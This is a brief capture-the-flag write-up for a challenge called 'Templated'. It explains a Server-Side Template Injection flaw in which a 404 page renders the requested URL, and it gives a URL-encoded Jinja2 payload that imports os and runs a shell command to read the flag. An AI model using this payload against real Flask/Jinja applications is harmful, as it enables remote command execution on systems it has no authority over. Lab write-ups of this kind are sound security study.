

# Templated

* Simple challenge that focuses on Server-Side Template Injection (SSTI). When trying to access a directory, the page responds with a 404 but also renders the url text on the screen

* RCE (Reflection-based): use a python object to reach the import method by calling superclasses (sort-of) and then just read the flag

~~~python3
http://138.68.191.25:30123/%7B%7Brequest.application.__globals__.__builtins__.__import__('os').popen('cat%20flag.txt').read()%7D%7D
~~~